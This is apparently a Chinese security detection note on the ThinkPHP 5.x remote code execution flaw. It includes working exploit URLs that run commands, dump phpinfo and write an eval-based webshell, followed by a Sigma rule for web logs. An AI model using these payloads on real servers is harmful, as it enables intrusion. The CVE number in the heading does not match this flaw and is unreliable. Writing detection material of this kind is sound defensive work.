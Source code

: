 # T1190-Thinkphp 5.x远程命令执行漏洞检测

## 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“ 利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使对手获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## CVE-2020-16875漏洞

### 简介

ThinkPHP官方2018年12月9日发布重要的安全更新，修复了一个严重的远程代码执行漏洞。该更新主要涉及一个安全更新，由于框架对控制器名没有进行足够的检测会导致在没有开启强制路由的情况下可能的getshell漏洞，受影响的版本包括5.0和5.1版本，推荐尽快更新到最新版本。

### 影响版本

5.x < 5.1.31, <= 5.0.23

## 测试案例

漏洞分析及漏洞利用可参考Thinkphp 5.x远程命令执行漏洞：

<https://www.cnblogs.com/backlion/p/10106676.html>

## 检测日志

HTTP_log，访问日志也可以

## 测试复现

1.利用system函数远程命令执行

```yml
http://localhost:9096/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami
```

2.通过phpinfo函数写出phpinfo()的信息

```yml
http://localhost:9096/public/index.php?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1
```

3.写入shell:

```yml
http://localhost:9096/public/index.php?s=/index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=echo%20^%3C?php%20@eval($_GET[%22code%22])?^%3E%3Eshell.php
```

或者

```yml
http://localhost:9096/index.php?s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_contents&vars[1][]=../test.php&vars[1][]=<?php echo 'ok';?>
```

## 测试留痕

暂无

## 检测规则/思路

### sigma规则

```yml
title: Thinkphp 5.x远程命令执行漏洞
description: 通过访问日志orHttp.log检测Thinkphp 5.x远程命令执行漏洞利用行为
translator: 12306Bro
date: 2020/12/12
status: experimental
references:
    - https://www.cnblogs.com/backlion/p/10106676.html
logsource:
    category: webserver
detection:
    selection:
        c-uri:
            - '/public/index.php?s=index/think\app/invokefunction&function=call_user_func_array'
    condition: selection
fields:
    - c-ip
    - c-dns
falsepositives:
    - Unknown
level: critical
```

## 备注

在具体业务场景下遇到，特记录。可以根据具体payload来判断是否为真实攻击。

## 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

Thinkphp 5.x远程命令执行漏洞：

<https://www.cnblogs.com/backlion/p/10106676.html>